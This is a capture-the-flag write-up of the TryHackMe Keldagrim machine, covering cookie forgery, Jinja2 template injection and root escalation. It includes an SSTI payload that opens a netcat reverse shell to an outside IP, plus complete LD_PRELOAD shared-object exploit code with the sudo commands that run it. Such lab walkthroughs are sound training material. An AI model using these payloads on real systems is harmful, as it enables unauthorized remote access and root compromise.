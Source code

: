 ```yaml
---
title: "Keldagrim WriteUp"
categories: [ctf]
date: 2022/07/22
description: TryHackMe Biblioteca WriteUp.
---
```

# TryHackMe | Keldagrim

Hello everyone,

I will explain the solution of the medium level machine as clearly as i work.

<p align="center">
  <img src="/img/keldagrim_thm/loky.png">
</p>

Let's first scan for open ports and services with nmap.

```bash
sudo nmap -sSCV 10.10.211.169 -T4 -v
```

<p align="center">
  <img src="/img/keldagrim_thm/0.png">
</p>

The web application is running on port 80 and the ssh service is active. let's switch to web application


<p align="center">
  <img src="/img/keldagrim_thm/1.png">
</p>

here we see a cookie with base64. What happens if we change this?

<p align="center">
  <img src="/img/keldagrim_thm/2.png">
</p>

It looks like there is an admin user and let's try to set our cookie accordingly

```bash
└─$ echo -n Z3Vlc3Q= | base64 -d
guest 

└─$ echo -n admin | base64   
YWRtaW4
```

<p align="center">
  <img src="/img/keldagrim_thm/3.png">
</p>

I've logged into admin. Since I don't understand anything here, I tried to interrupt with the burp suite.

<p align="center">
  <img src="/img/keldagrim_thm/4.png">
</p>

When we decoded the "sales" value, it gave us a result. this is the same result we just saw on the admin page.

```bash
└─$ echo -n JDIsMTY1 | base64 -d
$2,165
```
Two things came to mind here. rce and ssti. I wanted to try the ssti because it made more sense.


<p align="center">
  <img src="/img/keldagrim_thm/5.png">
</p>

I verified it's ssti and created a payload to get the reverse shell.

```basha
{{ namespace.__init__.__globals__.os.popen('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.77.152 8787 >/tmp/f').read() }}
```

<p align="center">
  <img src="/img/keldagrim_thm/6.png">
</p>


<p align="center">
  <img src="/img/keldagrim_thm/7.png">
</p>


```bash
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
jed@keldagrim:~$
```

I saw that the ps command works with sudo. but also that it belongs to the LD_PRELOAD environment

and I researched for privilege escalation

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

I saved the c codes in the exploit.c file and ran the following commands in the terminal to switch to root session

```bash
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
ls -al exploit.so
sudo LD_PRELOAD=/tmp/exploit.so ps
```

```bash
whomi

cat /root/root.txt && cat /home/jed/user.txt
```

